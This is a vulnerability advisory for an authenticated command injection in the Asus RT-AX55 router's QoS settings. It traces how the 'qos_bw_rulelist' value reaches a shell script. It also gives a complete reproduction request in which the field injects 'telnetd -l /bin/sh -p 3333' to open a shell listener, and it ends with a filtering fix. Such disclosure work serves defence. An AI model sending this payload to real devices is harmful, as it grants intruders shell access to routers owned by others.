


# 0x01  Vulnerability Description #

The Asus `RT-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyzing the `sbin/rc` binary file, in the function `FUN_0001e168`, retrieving the value of `restart_qos` from the HTTP request parameter `action_script`, and then entering the function `FUN_0006fbcc`.

In the function `FUN_0006fbcc`, when nvram's `qos_enable` is 1 and `qos_type` is 2, the function `FUN_0006cc04` is called.

In the function `FUN_0006cc04`, it first opens a shell script named "`/tmp/qos`". It then retrieves the value of "`qos_bw_rulelist`" from nvram and splits it into five substrings using the ">" delimiter. The value of the third substring, which is stored in the variable "`local_22c`", is written into the shell script "`/tmp/qos`". Finally, the "`_eval`" function is called to execute the "`start`" function of the "`/tmp/qos`" shell script.

# 0x04  Vulnerability Reproduction #

request:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 428
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/QoS_EZQoS.asp
    Cookie: clickedItem_tab=1; asus_token=b63QlsWOpMozaPKRPxR8iTB9SdVzKNK; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    preferred_lang=CN&firmver=3.0.0.4&current_page=QoS_EZQoS.asp&next_page=QoS_EZQoS.asp&group_id=&action_mode=apply&action_script=restart_qos%3Brestart_firewall%3B&action_wait=15&flag=&TM_EULA=1&qos_enable=1&qos_enable_orig=1&qos_type_orig=2&qos_type=2&qos_bw_rulelist=1%3EA0%3A29%3A19%3A17%3A70%3A32%3E`telnetd%20-l%20/bin/sh%20-p%203333`%3E5120%3E0&qos_type_radio=2&bw_setting_name=on&obw=0.00&ibw=0.00&obw1=&ibw1=&PC_devicename=

# 0x05  Vulnerability Fix #

Filter the characters `backtick ; | & $` and `"Line Feed` from `qos_bw_rulelist`.